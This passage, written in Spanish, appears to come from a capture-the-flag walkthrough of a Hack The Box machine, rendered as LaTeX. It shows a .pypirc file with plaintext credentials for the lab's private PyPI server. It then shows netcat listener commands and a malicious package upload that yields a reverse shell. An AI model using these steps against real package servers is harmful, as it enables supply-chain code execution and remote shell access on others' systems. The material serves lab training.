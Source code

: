 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
El contenido del fichero \texttt{.pypirc} seria

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{distutils}\NormalTok{]}
\ExtensionTok{index-servers}\NormalTok{ = remote}

\NormalTok{[}\ExtensionTok{remote}\NormalTok{]}
\ExtensionTok{repository}\NormalTok{ = http://pypi.sneakycorp.htb:8080}
\ExtensionTok{username}\NormalTok{ = pypi}
\ExtensionTok{password}\NormalTok{ = soufianeelhaoui}
\end{Highlighting}
\end{Shaded}

Ahora podemos enviarlo

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos el paquete al pypi server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ setup.py sdist upload -r remote}
\end{Highlighting}
\end{Shaded}
\item
  Tenemos una shell pero primero nos a ejecutado desde nuestro proprio equipo

  \begin{itemize}
  \item
    no ponemos una vez mas en escucha al puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    en el primero shell le damos a exit
  \end{itemize}
\end{enumerate}

Y ya esta
\end{document}
